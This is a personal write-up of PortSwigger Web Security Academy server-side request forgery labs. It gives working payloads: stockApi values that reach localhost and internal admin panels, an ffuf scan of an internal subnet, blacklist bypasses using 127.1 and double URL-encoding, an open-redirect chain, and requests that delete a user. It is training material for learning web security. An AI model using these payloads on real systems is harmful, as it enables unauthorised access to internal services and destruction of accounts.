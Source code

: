 # Server-side request forgery (SSRF)

- https://portswigger.net/web-security/ssrf
- https://portswigger.net/web-security/ssrf/blind

## Basic SSRF against the local server

Checking the items in the stock functionality is made by `POST /product/stock` request, which takes `stockApi` as param.

Its initial value of this param is `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1`, but this site is not available, so we can assume this is a link to the internal server and the app makes request to that endpoint retrieving its value to the website.

Changing the `stockApi` param to `http://localhost/admin` retrieves the content of the admin panel embeded in the product page.

Performing `POST /product/stock` request with `stockApi` value set as `http://localhost/admin/delete?username=carlos` removes the `carlos` user and solves the lab.

## Basic SSRF against another back-end system

This time stock check functionality is at `192.168.0.1`, which we can observe at `POST /product/stock` within `stockApi` parameter. 

`/admin` functionality is not present at this IP, but we can try to find different IP which may have it. To scan the network below code was used. Additionally it forwards the requests via Burp proxy and filters 500 responses.

```
seq 0 255 > ip.txt
ffuf -u 'https://0a98008d032d9726815dcf3f001c0047.web-security-academy.net/product/stock' -X POST -w ip.txt -d 'stockApi=http://192.168.0.FUZZ:8080/admin' -fc 500 -x http://localhost:8080
```

After this, one IP is revieled and we can access the admin pannel and remove the user with `stockApi` param set sa `http://192.168.0.26:8080/admin/delete?username=carlos`.

## SSRF with blacklist-based input filter

Using `stockApi` param as previously we can try to perform SSRF attack again, but this time it will be blocked.

Iterative tries to bypass the block displayed as a list below:
 - http://127.0.0.1/ - blocked
 - http://127.1/ - not blocked, 200 response cotaining embeded home page
 - http://127.1/admin - blocked
 - http://127.1/administrator - blocked
 - http://127.1/admin/1 - blocked
 - http://127.1/1 - not blocked
 - http://127.1/aDmIn - not blocked, but no results either
 - http://127.1/admi - not blocked, "admin" substring must be detected and blocked
 - http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65 (admin 2x times URL encoded) - not blocked and results in admin panel!

Now that we have found a way to access the admin panel, we can remove the `carlos` user and solve the lab, using `stockApi` param with value `http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos`

## SSRF with filter bypass via open redirection vulnerability

`GET /product/nextProduct` is vulnerable to open redirect. `path` param originaly is set as a relative path, but it accepts also full url and redirects to it without any issues.

Providing `http://localhost:8080/admin` as `path` param responds with 302 status and redirects to `localhost` happily.

This time `POST /product/stock` as `stockApi` param accepts only relative paths. Providing full URL responds with an error.

We can make use of open redirect in relative path `/product/nextProduct` to make a redirect to a full URL.

Making a `POST /product/stock` with param `stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//localhost/` responds with a homepage with visible navigation to `/admin` page, so we must bypass classic authentication or has a admin session somehow in the app.

Adding `/admin` to previous endpoint fails, so according to lab description we should fetch `http://192.168.0.12:8080/admin`

Making a `POST /product/stock` with param `stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin` accesses the admin panel and `stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete?username=carlos` removes `carlos` user which solves the lab.

## Blind SSRF with out-of-band detection

Cannot be done because it requires Burp Collaborator - Pro only feature.

Bur apparently it is enough to replace `Referer` header to our server FQDN, which will trigger `SSRF`, by server visiting provided URL.
